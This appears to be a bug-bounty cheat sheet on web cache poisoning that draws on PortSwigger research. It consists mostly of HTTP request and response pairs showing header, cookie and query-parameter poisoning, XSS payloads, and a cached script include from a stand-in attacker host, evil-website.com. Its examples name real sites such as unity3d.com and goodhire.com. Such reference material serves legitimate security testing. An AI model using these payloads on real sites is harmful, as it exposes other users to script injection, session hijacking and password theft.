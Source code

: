 # Web Cache Poisoning

## Introduction
The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

## Where to find
* Parameter with Cache (unkeyed) and its value reflected in Response   
* Header with Cache (unkeyed) and its value reflected in Response   
* Cookie with Cache (unkeyed) and its value reflected in Response   

## Impact
* Session Hijacking (Web Cache Poisoning + [Host Header Injection](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md) + XSS)
* Password Steal (Web Cache Poisoning + [Host Header Injection](https://github.com/Ch4ng3TheW0rld/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md))

## How to exploit
Note: Cache-Control: public, no-cache or X-cache: miss, hit
1. Basic Header poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil-website.com

### Response:
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil-website.com/a.png" />
```
> Or you can input XSS payloads
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>

### Response:
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

2. Basic Cookie poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
Cookie: sid=a.\"><script>alert(1)</script>

### Response:
HTTP/1.1 200 OK
X-Cache: miss, hit
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

3. Multiple Header poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil-website.com
X-Forwarded-Scheme: nothttps

### Response:
HTTP/1.1 301 Moved Permanently
Location: https://evil-website.com/
```

4. User-agent Selective poisoning (unknown header)
```
GET / HTTP/1.1
Host: www.vuln.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>

### Response:
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```

5. query parameter poisoning
```
GET /?evil='/><script>alert(1)</script> HTTP/1.1
Host: www.vuln.com

### Response:
HTTP/1.1 200 OK
X-Cache: miss, hit
…
<href="https://www.vuln.com/?evil='/><script>alert(1)</script>">
```

6. Seizing the Cache
```
GET / HTTP/1.1
Host: unity3d.com
X-Host: evil-website.com

### Response:
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://evil-website.com/x.js"></script>
```

7. Route Poisoning
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil

### Response:
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
To exploit this, we need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and then finally trick HubSpot into serving this response on goodhire.com
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com

### Response:
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

8. Hidden Route Poisoning
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil

### Response:
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```
When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has defined a custom domain, their ghost.io subdomain will simply redirect to it:
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io

### Response:
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

## References
* [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)

